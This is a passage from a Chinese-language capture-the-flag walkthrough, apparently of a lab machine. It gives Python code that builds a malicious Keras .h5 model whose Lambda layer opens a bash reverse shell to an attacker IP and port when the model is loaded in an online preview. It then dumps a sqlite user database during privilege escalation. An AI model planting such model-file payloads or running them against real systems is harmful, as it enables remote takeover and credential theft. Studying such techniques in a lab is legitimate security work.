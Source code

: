 ```
import tensorflow as tf
import os

def exploit(x):
    import os
    os.system(&#34;/bin/bash -i >& /dev/tcp/10.10.14.78/4444 0>&1&#34;)
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save(&#34;model.h5&#34;)
```

  
生成的
```
.h5
```

  
文件在网页上传，本地设置好监听，点击在线预览即可反弹成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHgibVGb9pLHMDNuoGpYbx2fNvGvPnF3PcnF3GB2GBsibsSdZA5ShO0GyQ/640?wx_fmt=png&from=appmsg "null")  
  
### 初步提权  
  
当前用户是 app, 权限很小，只是个 web 权限，不过在当前 instance 目录下找到个 sqlite 数据库文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHuW0GWQlJmsmPpWqLZM7O5XQJFRpXPp3dEmFat9xbzfgCNSIibhh0Mww/640?wx_fmt=png&from=appmsg "null")  
  
  
在当前机器使用 sqlite 打开数据库，浏览里面的内容  

```
# 打开数据库文件
sqlite3 users.db

# 查看表
.tables

# 查看表数据
select * from user;
```

  
user 表看到一个 gael 用户  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuH6dSj5THiaKBic4Z9gwGeedVU92pG3dkIyMA9G5WSZGckWsSHw6ou5kPg/640?wx_fmt=png&from=appmsg "null")  
  
  
查看 passwd 发现 gael 用户是可登录用户，显然这个用户的价值更高，优先看一下它  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHrScpF7icCQLRJfnMgCUSUs8hGfGBWphmJhmQSzXsqCRkrqWlw2FfSYQ/640?wx_fmt=png&from=appmsg "null")  
  